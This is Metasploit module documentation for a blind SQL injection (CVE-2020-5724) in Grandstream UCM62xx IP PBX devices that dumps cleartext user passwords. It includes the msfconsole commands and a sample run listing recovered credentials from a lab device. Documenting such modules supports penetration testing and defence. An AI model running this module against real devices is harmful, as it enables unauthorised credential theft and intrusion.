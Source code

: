 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/gather/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `check`
* Do: Verify the remote host is vulnerable.
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf6 > use auxiliary/gather/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > check

[*] Requesting version information from /cgi
[*] 10.0.0.7:8089 - The target appears to be vulnerable. The self-reported version is: 1.0.20.20
msf6 auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > run
[*] Running module against 10.0.0.7

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[+] The target appears to be vulnerable. The self-reported version is: 1.0.20.20
[*] Found the following username and password: admin - cheesed00dle
[*] Found the following username and password: 1000 - gZ15S8O8U5S72oli
[*] Found the following username and password: 1001 - qK6uRxwC
[*] Found the following username and password: 1002 - aP9ux515W7p5U
[*] Found the following username and password: 1003 - pM6mo!E8u37k
[*] Found the following username and password: 1004 - mC7N68dm8h
[*] Auxiliary module execution completed
msf6 auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > 
```
